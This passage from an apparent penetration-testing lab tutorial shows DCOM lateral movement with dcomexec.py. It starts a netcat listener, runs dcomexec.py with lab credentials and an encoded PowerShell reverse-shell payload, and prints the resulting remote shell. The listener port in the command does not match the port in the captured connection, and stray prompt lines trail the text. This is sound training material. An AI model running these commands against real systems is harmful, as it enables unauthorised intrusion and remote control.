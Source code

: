 We can leverage `dcomexec.py` to connect to a remote host and get code execution. Let's start a listener with `Netcat`:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080

```

Now, we will use the user `Josias` and the password `Jonny25` to connect to `SRV02`, this user is a member of the `Distributed COM Users` which have the necessary permissions to execute `dcomexec.py`, we must specify the `DCOM` object we wish to use with `-object`, for this example, we will be using `MMC20`, after that we must specify the domain, user, and password along with the target IP address, `<domain>/<user>:<password>@<ip>`, finally, we can pass our payload:

We will be using a PowerShell reverse shell payload from [revshells.com](https://revshells.com).

```shell
proxychains4 -q python3 dcomexec.py -object MMC20 INLANEFREIGHT/Josias:[email protected] "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand

```

**Note:** In case the TCP port 445 is not available, we can use the option `-no-output`. This will disable the output and it won't try to use port 445 for connections.

As we can see, we have successfully gained access to system:

```shell
nc -lnvp 8001
listening on [any] 8001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.245] 49869

PS C:\windows\system32> whoami
inlanefreight\josias

```

**Note:** Alternatively, `dcomexec.py` also supports `ShellWindows` & `ShellBrowserWindow` objects; we can substitute MMC20 and if those are enabled, it will allow us to perform code execution.

## Conclusion

`DCOM` provides powerful capabilities for remote interaction and command execution in Windows environments, significantly aiding lateral movement. By utilizing `DCOM` objects like `ShellWindows` and `ShellBrowserWindow`, we can gain control over Windows Explorer instances and perform actions such as file manipulation and command execution. The `MMC20.Application` object further allows command execution via Microsoft Management Console (MMC), enhancing remote administrative capabilities. Knowing these methods and techniques can be very helpful to improve our penetration testing assignments.


# Secure Shell (SSH)



[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>